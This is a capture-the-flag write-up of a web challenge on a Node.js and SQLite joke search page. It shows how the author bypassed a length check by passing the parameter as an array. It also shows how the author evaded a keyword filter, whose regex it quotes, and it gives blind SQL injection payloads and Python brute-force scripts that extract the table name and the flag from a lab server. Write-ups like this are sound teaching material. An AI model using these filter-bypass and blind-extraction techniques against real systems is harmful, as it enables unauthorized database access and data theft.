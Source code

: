 # Challenge link
URL:      [http://45.122.249.68:20020/](http://45.122.249.68:20020/) (maybe the server was shut down)

# Challenge description
Recon carefully so as not to miss anything

# Challenge source file
URL: [https://drive.google.com/file/d/1n_xX6Heaqq9uI-MBkeR81FcCN6J07wSU/view?usp=sharing](https://drive.google.com/file/d/1n_xX6Heaqq9uI-MBkeR81FcCN6J07wSU/view?usp=sharing)

# Difficulty
Not easy

# Author
dcthinh

# Approach
- SQL injection is a simple but dangerous web vulnerability so every CTF challenge which I have attended has at least one. At the time I saw the challenge's name, I realized that it would be SQLi.
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/20954e6b-56c0-4cfb-96e2-a8e09c0630c6)

- I tried to click on the *Home* and *About* buttons but nothing happened. Let's try to read the source:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d38dc2a3-7d6d-4d51-93ea-37cf6012325c)

- I still see nothing there. It's time to read the source code.
- In *app.js*, I saw that they used the SQLite3 db. There's a table named API, and the flag table has a format name: "flag_" + an UUIDv4 string. More important, there is a hidden page which I found when reading this piece of code:
  ```
  app.get('/search', (req, res) => {
      const { name } = req.query;
      const Filterduidui = /(union|or|substring|substrs|if|case|=|when|then|join|load_extension|likely|unhex|\|\|)/i;
      if (!name) {
          return res.redirect('/search?name=1');
      }
  ```
- They filtered some keywords.
- Let's navigate the hidden site:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/91332e12-a283-4b6c-b2af-603f15a035d1)
  
- It is just a simple joke dispenser. According to the source code, it has 6. But it's not the problem. We need to take the flag.
- Because it is an SQLi challenge, I also tried to input something like *' and 1 is 1--* into the *name* parameter. A message appeared:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d88bfe0f-1a37-4bc0-8d4e-25b899d95200)

- That means, the input of *name* is too long, because of this:
  ```
  if (name.length > 6) {
        return res.status(400).send({ err: 'U r hacker?' });
    }
  ```
- But this site is written in JavaScript. Since the whole program did not check if the *name* parameter is a string, *what would it be if I turned it into an array?* Let's check:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/9d8f109e-c0b2-4812-9ba7-be31cc60f347)

- It worked!!! If you don't know why it worked, the reason is JavaScript determines the length of an array is the total number of elements inside it. Now I can input an arbitrary length payload.

- I tried to input something weird into the *name* parameter. The joke disappeared immediately:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/4594b0e9-ad9f-457b-83f8-0fce3510586b)
  
- At that time, I immediately claimed that I should use the Blind SQL injection technique, due to the message appearance behavior of the site. But the keywords *substring* and *substrs* were blocked.
- After an hour of thinking, I realized that SQLite uses *substr* keyword, not *substring* or *substrs*. This - is - the - key - to - solve - this - challenge.

# Problem-solving
  ## Database name length brute-forcing
  - I don't know the flag table name, so I have to find it. The name is randomly generated by this function:
    ```
    const flagTable = `flag_${uuid.v4().replace(/-/g, '_')}`;
    ```
  - First, I wrote a payload to determine the length of the table name (for not being time-consuming). I use Burp Suite for convenience:
    ```
    1' AND (SELECT LENGTH(name) FROM sqlite_master WHERE type is 'table' AND name LIKE 'flag_%') is 1--
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/ef581b82-f55a-4fe1-ae23-52430745bed4)
  - It worked. It's time to brute-force.
  - I set the Grep-Match to the string *"id":1* as the clue:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/109ae2c4-fdbc-4336-8c2e-1b3b6f716f41)

  - Setup done, now attack phase:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d6e047f5-89ec-4e9f-88a4-5913046709f4)

  - The result is 41. Since the *flag_* takes 5 characters, I have to find 36 other chars.
  ## Flag brute-forcing
  - I write a simple Python code for this purpose:
    ```
    import requests

    char_set = '_1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'
    target = 'http://45.122.249.68:20020/search?name[]='
    flag = 'flag_'
    print(flag)

    for i in range(6, 100):
      for j in char_set:
        r = requests.get(url= target + f"1' AND (SELECT SUBSTR(name, {i}, 1) FROM sqlite_master WHERE type IS 'table' AND name LIKE 'flag_%') IS '{j}'--")
        if '"id":1' in r.text:
            flag += j
            print(flag)
            break
    ```
  - The flag table name is: flag_c1abd148_acae_40be_a953_eae333f90da0
  - The remaining work is quite simple. This Python code is used to find the flag:
    ```
    import requests

    char_set = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789	 !}_{\"\#$%&'()*+,-./:;?@[\]^`|~"
    target = 'http://45.122.249.68:20020/search?name[]='
    flag = ''

    for i in range(1, 100):
      for j in char_set:
        r = requests.get(url= target + f"1' AND (SELECT SUBSTR(flag, {i}, 1) FROM flag_c1abd148_acae_40be_a953_eae333f90da0) IS '{j}'--")
        if '"id":1' in r.text:
            flag += j
            print(flag)
            break
    ```
  - Flag: W1{I_th1nk_u_r_so_lite^_^}


